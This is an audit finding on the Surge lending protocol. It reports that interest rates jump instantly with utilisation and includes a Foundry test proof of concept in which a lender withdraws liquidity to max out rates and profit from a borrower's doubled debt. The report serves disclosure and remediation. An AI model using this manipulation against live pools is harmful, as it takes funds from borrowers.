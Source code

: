 Respx

high

# Interest rates change without delay and so are susceptible to rapid manipulation

## Summary

A pool can be created with a maximum interest rate of up to 10,000% borrow APR. This could be done without malicious intent, as it provides users with an incentive to deposit loan tokens when the utilisation rate goes over the surge threshhold.

However, unlike the fall in the collateral ratio, the interest rate adjusts instantly. This fact, combined with a potential maximum rate in the thousands of percent, opens up the possibility for users to withdraw loan tokens to manipulate the interest rate.

## Vulnerability Detail

With a sufficiently high `MAX_RATE`, these manipulations can cause unexpected losses for borrowers, who will find their repayment amounts increasing much faster than they expected.

See the Proof of Concept below for a worked example (non technical readers can follow the example by reading the comments: lines starting //).

Add to `Pool.t.sol`:
```Solidity
    function testInterestManipulation() external {
        address alice = 0xaAaAaAaaAaAaAaaAaAAAAAAAAaaaAaAaAaaAaaAa;
        address bob = 0xbBbBBBBbbBBBbbbBbbBbbbbBBbBbbbbBbBbbBBbB;

        uint amount = 1e18;
        MockERC20 collateralToken = new MockERC20(amount, 18);
        MockERC20 loanToken = new MockERC20(amount * 2, 18);
        Pool pool = factory.deploySurgePool(
            IERC20(address(collateralToken)), 
            IERC20(address(loanToken)), 
            50e18, // _maxCollateralRatioMantissa
            0.8e18, // _surgeMantissa
            10 days, // _collateralRatioFallDuration
            1e15, // _collateralRatioRecoveryDuration
            0.1e18, // _minRateMantissa
            0.4e18, // _surgeRateMantissa
            100e18 // _maxRateMantissa << NOTE
        );

        uint alice_initial_balance = 1_000;
        loanToken.transfer(alice, alice_initial_balance);
        loanToken.transfer(bob, 10_000);
        collateralToken.transfer(bob, 1_000);

        // Alice provides some loan tokens
        vm.startPrank(alice);
        loanToken.approve(address(pool), type(uint).max);
        pool.deposit(1_000);
        vm.stopPrank();

        // Bob borrows at 30:1 (well below max)
        vm.startPrank(bob);
        collateralToken.approve(address(pool), type(uint).max);
        pool.addCollateral(bob, 20);
        pool.borrow(600);
        vm.stopPrank();

        // All is well. Move forward 10 seconds
        skip(10);
        emit log_named_uint("UTIL %:",lens.getUtilizationMantissa(address(pool))/1e16);
        emit log_named_uint("BORROW %:",lens.getBorrowRateMantissa(address(pool))/1e16);

        // Utilisation is only 60%, 20% below the surge level
        // Alice withdraws all remaining loan tokens
        vm.startPrank(alice);
        pool.withdraw(400);
        vm.stopPrank();

        // This instantly sends the utilisation rate to 100%
        emit log_named_uint("UTIL %:",lens.getUtilizationMantissa(address(pool))/1e16);
        // Note that the borrow rate instantly goes to max.
        emit log_named_uint("BORROW %:",lens.getBorrowRateMantissa(address(pool))/1e16);

        emit log_named_uint("BOB OWES:",lens.getDebtOf(address(pool),bob));

        //Just 4 days pass: far less than _collateralRatioFallDuration
        skip(4 days);

        //10,000% interest is a lot: Bob's debt has doubled in 4 days.
        emit log_named_uint("BOB OWES:",lens.getDebtOf(address(pool),bob));

        // Bob repays (assume his collateral is still worth more than his debt)
        vm.startPrank(bob);
        loanToken.approve(address(pool), type(uint).max);
        pool.repay(bob,type(uint).max);
        vm.stopPrank();

        // Alice withdraws, profiting all the extra loan tokens paid by Bob
        uint alice_before = loanToken.balanceOf(alice);
        vm.startPrank(alice);
        pool.withdraw(type(uint).max);
        vm.stopPrank();
        uint alice_after = loanToken.balanceOf(alice);

        emit log_named_uint("ALICE WITHDRAWS:",alice_after - alice_before);
        emit log_named_uint("ALICE PROFIT:",alice_after - alice_initial_balance);

    }
```

## Impact

Borrowers will suffer unexpected loss of funds: they will have to repay far more loan tokens than expected to regain their collateral. 

## Code Snippet

https://github.com/Surge-fi/surge-protocol-v1/blob/b7cb1dc2a2dcb4bf22c765a4222d7520843187c6/src/Pool.sol#L175-L182
In this function, the borrow interest rate is calculated. It has no time delay. It simply scales according to the current utilisation rate (`_util` in the code).

## Tool used

Manual Review

## Recommendation
Implement a system to time delay large interest rate rises.

